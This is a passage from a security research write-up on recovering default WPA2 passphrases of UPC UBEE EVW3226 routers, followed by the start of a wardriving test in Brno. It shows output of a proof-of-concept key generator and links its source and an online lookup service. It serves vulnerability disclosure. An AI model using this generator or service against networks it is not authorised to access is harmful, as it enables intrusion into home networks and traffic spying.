Our [proof-of-concept](https://github.com/yolosec/upcgen/blob/master/ubee_keys.c) generates the following output
after entering the last 3 bytes of BSSID. Password for 2.4GHz and 5.0GHz network is highlighted, others are printed
just for illustration.

```
./ubee_keys 123456

================================================================================
 upc_ubee_keys // WPA2 passphrase recovery tool for UPC%07d UBEE EVW3226 devices 
================================================================================
by ph4r05, miroc

  your-BSSID: 647C34123456, SSID: UPC3910551, PASS: HAYQQHCS

  near-BSSID: 647C34123451, SSID: UPC0595666, PASS: NRFJHXDX 
  near-BSSID: 647C34123452, SSID: UPC5434630, PASS: UTVBNYJP 
  near-BSSID: 647C34123453, SSID: UPC2659797, PASS: IVGDQAMI  <-- 2.4 Ghz
  near-BSSID: 647C34123454, SSID: UPC2152244, PASS: ZVESFKYD 
  near-BSSID: 647C34123455, SSID: UPC2870546, PASS: PXKRLPCC  <-- 5.0 GHz
  near-BSSID: 647C34123456, SSID: UPC3910551, PASS: HAYQQHCS 
  near-BSSID: 647C34123457, SSID: UPC8366197, PASS: CIIMMAYX
```

Or try our online service [ubee.deadcode.me](https://ubee.deadcode.me) which uses pre-generated password database
to lookup passwords matching given SSID.

Concluding this attack, any user of UBEE EVW3226 with affected router version should stop using this modem, change 
it for different one or configure properly. Our attack combined with this [Security Advisory](http://www.securityfocus.com/archive/1/538560)
can lead to complete take over of the router. Attacker can install malware to the router, spy on your traffic, attack
another nodes in network or build botnet from the routers.

Our UBEE password generator combined with generator from Blasty can crack majority of UPC networks with SSID `UPC1234567` (7 digits).

## Wardriving {#wardriving}
And now the funny part.
To face our results with the reality, we did a small [wardriving](https://en.wikipedia.org/wiki/Wardriving) test. To those who do not know the term, it is an act of searching for available WiFi networks in a specific area, usually from a car. 

We are based in [Brno](https://en.wikipedia.org/wiki/Brno), which is the second largest city of the Czech Republic. It has population about 400 000 people, lots of them concentrated in city blocks where people are living in tower buildings built during the communist era (known as "panelaky"). This proved to be a good target since there are plenty of WiFis to be caught.

Our setup was simple - Linux laptop having external WiFi card (TP-LINK TL-WN722N) with [Kismet](https://en.wikipedia.org/wiki/Kismet_(software)) and Motorola Moto G Android phone with [WiGLE Wifi](https://play.google.com/store/apps/details?id=net.wigle.wigleandroid) application. Long story short - suprisingly the Android phone did a better job and found twice as many networks as the elaborate PC setup. Therefore the further data is mostly from the Android device.
